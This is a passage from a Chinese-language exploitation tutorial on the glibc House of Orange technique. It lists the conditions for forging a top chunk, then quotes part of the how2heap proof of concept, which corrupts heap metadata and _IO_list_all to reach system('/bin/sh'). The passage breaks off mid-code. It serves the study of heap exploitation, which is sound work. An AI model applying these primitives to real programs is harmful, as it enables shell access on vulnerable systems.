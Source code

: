 堆溢出伪造时注意：

*   保证原本 old top chunk 的 size 大于 MINSIZE
*   保证原本 old top chunk 的 prev\_inuse 位是 1
*   原本 old top chunk 的地址加上其 size 之后的地址要与页对齐 也就是 address&0xfff=0x000。
*   old chunk 的 size 要小于申请的堆块大小加上 MINSIZE

注意：如果申请的堆块大小大于 0x20000，那么申请到的将会是 mmap 映射出来的内存而不会拓展 topchunk 了

## 组合拳

虽然 House of orange 似乎只能构造一个 unsortedbin chunk，但是他和 unsortedbin 以及 FSOP 的组合拳却能造成无比强大的攻击效果

**样例：how2heap 中的 House of orange**

### 源码

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner ( char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;

    fprintf(stderr, "The attack vector of this technique was removed by changing the behavior of malloc_printerr, "
        "which is no longer calling _IO_flush_all_lockp, in 91e7cf982d0104f0e71770f5ae8e3faf352dea9f (2.26).\n");

    fprintf(stderr, "Since glibc 2.24 _IO_FILE vtable are checked against a whitelist breaking this exploit,"
        "https://sourceware.org/git/?p=glibc.git;a=commit;h=db3476aff19b75c4fdefbe65fcd5f0a90588ba51\n");

    /*
      Firstly, lets allocate a chunk on the heap.
    */

    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;

    p2 = malloc(0x1000);

    io_list_all = top[2] + 0x9a8;

    top[3] = io_list_all - 0x10;

    /*
      At the end, the system function will be invoked with the pointer to this file pointer.
      If we fill the first 8 bytes with /bin/sh, it is equivalent to system(/bin/sh)
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;
    FILE *fp = (FILE *) top;


    /*
```